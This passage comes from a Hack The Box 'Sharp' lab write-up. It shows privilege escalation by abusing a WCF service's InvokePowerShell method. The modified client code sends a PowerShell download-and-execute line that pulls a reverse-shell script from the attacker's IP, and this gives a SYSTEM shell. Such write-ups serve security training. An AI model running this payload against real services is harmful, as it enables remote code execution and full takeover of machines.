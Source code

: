 ![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_14-33.png)

Now we are `lars` in his server, move to our malformed `wcf` project and run it again.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_14-36.png)

Successfully executed as `lars`. Now we will use the project's built-in function `InvokePowerShell` to escalate our privilege.

```c#
        public string InvokePowerShell(string scriptText)
        {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(scriptText);
            pipeline.Commands.Add("Out-String");
            Collection <PSObject> results = pipeline.Invoke();
            runspace.Close();
            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
            {
                stringBuilder.AppendLine(obj.ToString());
            }
            return stringBuilder.ToString();
        }
    }
```

`Client.cs` is to be changed as below:

```c#
namespace Client {

    public class Client
    {
        public static void Main() {
            ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(
                new NetTcpBinding(SecurityMode.Transport),"net.tcp://10.10.10.219:8889/wcf/NewSecretWcfEndpoint"
            );
            IWcfService client = channelFactory.CreateChannel();
            Console.WriteLine(client.InvokePowerShell("IEX(New-Object Net.WebClient).downloadString('10.10.16.3/reverse.ps1')"));
        }
    }
```

Re-build the project then execute `Client.exe` as `lars` gives us our reverse shell as `nt-authority system` 

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_14-46.png)

And the flag is located in `C:\Users\Administrator\Desktop\root.txt`
